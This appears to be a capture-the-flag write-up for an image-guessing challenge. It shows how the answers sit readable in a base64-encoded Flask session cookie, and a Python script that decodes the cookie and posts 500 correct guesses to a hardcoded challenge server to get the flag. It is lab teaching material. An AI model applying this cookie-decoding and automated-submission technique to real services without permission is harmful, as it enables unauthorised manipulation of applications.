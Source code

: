 
The page shows a random generated image with random generated file name every time refresh, for the first time visit it, a ``session`` value is set in cookie.

```
session: eyJhbnN3ZXIiOlsyNSwyMywxMyw5M10sImNvcnJlY3QiOjIsImltYWdlIjoiLi9zdGF0aWMvY2hhbGwtaW1hZ2VzL2lNdUx4T29DeUIuanBnIn0.YGrDwA.Vr2yoO58ay3OhDqhOd6xqLYa45c
```

Decode it with ``base64`` we get key-value data, as the ``session`` value itself comes with some additional bytes at the end, might cause some parse issue. It seems ``answer`` is correct guess for ``image``. Send it with ``,`` is not working and the guess count is reset to 0, but it works with space splitter.

```
base64 -d <<< eyJhbnN3ZXIiOlsyNSwyMywxMyw5M10sImNvcnJlY3QiOjIsImltYWdlIjoiLi9zdGF0aWMvY2hhbGwtaW1hZ2VzL2lNdUx4T29DeUIuanBnIn0.YGrDwA.Vr2yoO58ay3OhDqhOd6xqLYa45c
{"answer":[25,23,13,93],"correct":2,"image":"./static/chall-images/iMuLxOoCyB.jpg"}base64: invalid input
```

The session value is used for post requests. If the submitted data is correct, the correct guess count on page is increamented by 1. Every time we make a guess the session value in cookie changes, so we need to re-parse and use it for the next guess. We need to guess 500 times to meet the requirement.

```
remote = "http://104.197.195.221:8084"

def parse():
    sess = base64.decodebytes(rsp.cookies['session'].split('.')[0].encode()+b'==')
    ans = json.loads(sess)['answer']
    guess = ' '.join(map(str, json.loads(sess)['answer']))
    return guess

rsp = requests.get(remote)
guess = parse()

for i in range(1, 501):
    rsp = requests.post(remote,
            data={'guess': guess},
            headers={
            'Content-Type': 'application/x-www-form-urlencoded',
            },
            cookies=rsp.cookies)
    print(rsp.text)
    guess = parse()
```

After 500 correct guess, we get the flag in response.


